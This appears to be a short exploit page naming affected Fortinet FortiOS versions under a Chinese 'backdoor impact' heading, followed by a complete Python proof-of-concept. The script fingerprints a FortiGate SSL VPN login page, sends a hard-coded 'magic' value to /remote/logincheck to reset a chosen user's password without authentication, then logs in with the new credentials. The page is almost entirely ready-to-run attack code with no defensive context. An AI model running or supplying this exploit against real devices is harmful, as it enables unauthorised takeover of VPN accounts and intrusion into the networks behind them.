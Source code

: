 後門影響
--------

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.9 Fortinet Fortios 5.4.11

POC
---

    import requests, binascii, optparse, sys
    from urlparse import urlparse
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    requests.packages.urllib3.disable_warnings()
    import multiprocessing
    import colored
    from user_agent import generate_user_agent, generate_navigator
    bold=True
    userAgent=generate_user_agent()
    username=""
    newpassword=""
    ip=""
    def setColor(message, bold=False, color=None, onColor=None):
        from termcolor import colored, cprint
        retVal = colored(message, color=color, on_color=onColor, attrs=("bold",))
        return retVal
    def checkIP(ip):
        try:
            url = "https://"+ip+"/remote/login?lang=en"
            headers = {"User-Agent": userAgent, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
            r=requests.get(url, headers=headers, verify=False)
            if r.status_code==200 and "<title>Please Login</title>" in r.text:
                return True
            else:
                return False
        except requests.exceptions.ConnectionError as e:
            print e
            return False
    def changePassword(ip,username,newpassword):
        url = "https://"+ip+"/remote/logincheck"
        headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
        data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword, "magic": "4tinet2095866", "reqid": "0", "credential2": newpassword}
        r=requests.post(url, headers=headers, data=data, verify=False)
        if r.status_code==200 and 'redir=/remote/hostcheck_install' in r.text:
            return True
        else:
            return False
    def testLogin(ip,username,newpassword):
        url = "https://"+ip+"/remote/logincheck"
        headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
        data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword}
        r=requests.post(url, headers=headers, data=data, verify=False)
        if r.status_code==200 and"redir=/remote/hostcheck_install" in r.text:
                return True
        else:
            return False
    parser = optparse.OptionParser()
    parser.add_option('-i', action="store", dest="ip", help="e.g. 127.0.0.1:10443")
    parser.add_option('-u', action="store", dest="username")
    parser.add_option('-p', action="store", dest="password")
    options, remainder = parser.parse_args()
    if not options.username or not options.password or not options.ip:
        print "[!] Please provide the ip (-i), username (-u) and password (-p)"
        sys.exit()
    if options.username:
        username=options.username
    if options.password:
        newpassword=options.password
    if options.ip:
        ip=options.ip
    tmpStatus=checkIP(ip)
    if tmpStatus==True:
        print "[*] Checking if target is a Fortigate device "+setColor(" [OK]", bold, color="green")
        if changePassword(ip,username,newpassword)==True:
            print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [OK]", bold, color="green")
            if testLogin(ip,username,newpassword)==True:
                print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [OK]", bold, color="green")
                print "************** Enjoy your new credentials **************"
            else:
                print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [NOK]", bold, color="red")
        else:
            print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [NOK]", bold, color="red")
    else:
        print "[*] Checking if target is a Fortigate device "+setColor(" [NOK]", bold, color="red")
